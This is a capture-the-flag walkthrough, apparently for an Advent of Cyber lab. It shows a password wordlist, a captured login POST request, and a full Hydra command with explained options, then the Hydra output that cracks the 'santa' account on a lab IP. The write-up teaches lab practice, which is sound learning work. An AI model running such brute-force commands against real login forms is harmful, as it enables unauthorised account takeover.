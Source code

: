 ## We're first downloading the worlist to our machine
```$cat /advent3/day4/wordlist ```

![cat](/Advent%20of%20Cyber%203/Screenshots/Wordlist.PNG)
```
christmas
elves!
santa
festive
joy123
myrrh!
yuletide
presents
candy
tidings
cookie
cookies
biscuits!
snowball
snowball123
```
Now we need the post request, how does it look! for that purpose we use burpsuite!
- Here's our response!

![burp](/Advent%20of%20Cyber%203/Screenshots/Task4burp.PNG)
```
POST / HTTP/1.1
Host: 10.10.88.145
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: http://10.10.88.145
Connection: close
Referer: http://10.10.88.145/
Cookie: PHPSESSID=rr0akvdk9fpk555t5f8fdl8s75
Upgrade-Insecure-Requests: 1

username=username&password=password&submit=Login
```

Now we know how our request looks like! let try to grab that form post and pass it to Hydra (Hydra is a pre-installed tool in Kali Linux used to brute-force username and password to different services)

```
hydra -l santa -P wordlist 10.10.88.145 http-form-post "/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password" -I
```
You might be wondering why adding a lot of those options, right?
- ```-l``` for the username!
- ```-P wordlist``` for the password wordlist that we've downloaded before!
- ```10.10.88.145``` our target!
- ```http-form-post``` We're bruteforcing a post module!
- ```^USER^``` & ```^PASS^``` are two parameters indicate what we're bruteforcing!
- ```F=Invalid username and password``` Whenever Hydra see this line when bruteforcing, it knows that the attempt failed therfore wrong credentials.
- ```-I``` Used to stop any previous hydra sessions and focus on the current one


- We get a response like this~

```http
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-05 01:17:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:1/p:16), ~1 try per task
[DATA] attacking http-post-form://10.10.88.145:80/index.php:username=^USER^&password=^PASS^&submit=Login:F=Invalid username and password
```
```
[80][http-post-form] host: 10.10.88.145   login: santa   password: cookie
```
```
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-05 01:17:02
```

Right! We've got the password! Which is cookie!, Now let try to attempt to login
![login](/Advent%20of%20Cyber%203/Screenshots/login.PNG)
![done](/Advent%20of%20Cyber%203/Screenshots/flag.PNG)


We've done it! Well done guys!